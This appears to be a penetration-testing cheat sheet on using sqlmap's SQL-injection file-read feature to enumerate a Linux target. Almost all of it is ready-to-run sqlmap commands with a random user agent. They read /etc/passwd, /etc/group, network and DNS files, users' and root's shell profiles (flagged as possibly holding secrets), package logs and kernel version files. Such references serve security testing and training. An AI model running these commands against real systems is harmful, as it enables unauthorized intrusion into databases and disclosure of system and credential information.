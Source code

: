 # Linux

Search Tag: #sqlmap #enumeration-and-discovery

## Conditions

1. The DB user must have **FILE** and **SELECT** privileges perform with the flags `--privileges -U CU`.
2. **Note:** Not all files are readable unless the current user is `root@<IP>` (e.g. `root@localhost`). You'll notice that you can't fetch SSH credentials which is normal due to security reasons.

## Automated

- Enumerating user accounts

```
$ sqlmap -u <URL> --random-agent --file-read="/etc/passwd"

$ sqlmap -u <URL> --random-agent --sql-query="SELECT LOAD_FILE('/etc/passwd')"
```

- Enumerate user groups

```
$ sqlmap -u <URL> --random-agent --file-read="/etc/group"
```

- Local IPv4 address

```
$ sqlmap -u <URL> --random-agent --file-read="/etc/network/interfaces"

$ sqlmap -u <URL> --random-agent --file-read="/etc/sysconfig/network"

$ sqlmap -u <URL> --random-agent --file-read="/etc/networks"
```

- DNS resolve and nameserver IPs

```
$ sqlmap -u <URL> --random-agent --file-read="/etc/resolv.conf"

$ sqlmap -u <URL> --random-agent --file-read="/etc/hosts"
```

- Environment variables may contain **sensitive information**. You never know that sometimes the sysadmins can be lazy sometimes.

```
$ sqlmap -u <URL> --random-agent --file-read="/etc/profile"

$ sqlmap -u <URL> --random-agent --file-read="/etc/bash.bashrc"

$ sqlmap -u <URL> --random-agent --file-read="/home/<username>/.bash_profile"

$ sqlmap -u <URL> --random-agent --file-read="/root/.bash_profile"

$ sqlmap -u <URL> --random-agent --file-read="/home/<username>/.bashrc"

$ sqlmap -u <URL> --random-agent --file-read="/root/.bashrc"
```

- Enumerate installed packages that will give you an idea of what services are installed.

```
$ sqlmap -u <URL> --random-agent --file-read="/var/log/dpkg.log"

$ sqlmap -u <URL> --random-agent --file-read="/var/log/yum.log"
```

- Enumerate Linux kernel

```
$ sqlmap -u <URL> --random-agent --file-read="/etc/lsb-release"

$ sqlmap -u <URL> --random-agent --file-read="/etc/os-release"

$ sqlmap -u <URL> --random-agent --file-read="/proc/version"
```